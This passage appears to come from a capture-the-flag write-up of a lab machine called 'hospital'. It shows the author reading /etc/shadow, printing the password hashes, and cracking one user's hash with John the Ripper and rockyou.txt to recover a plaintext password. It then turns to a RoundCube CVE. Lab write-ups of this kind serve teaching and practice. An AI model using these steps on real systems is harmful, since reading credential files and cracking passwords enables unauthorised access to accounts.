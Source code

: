i will check /etc/shadows directly.

```bash
# cat /etc/shadow
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

lets crack it

```bash
➜  hospital john drwilliams.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (?)     
1g 0:00:00:33 DONE (2025-07-05 00:09) 0.02980g/s 6386p/s 6386c/s 6386C/s rufus11..pucci
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
➜  hospital cat drwilliams.hash 
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
```

we got our first creds `qwe123!@#`  i will check with nxc first.

![alt text](../assets/images/hospital6.png)

okey i found only 2 users and dont wannt to dumnp BH data cause its seems like useless lets check on port 443 cause we didnt touch yet.

### RoundCube (CVE-2023-36664)

![alt text](../assets/images/hospital7.png)
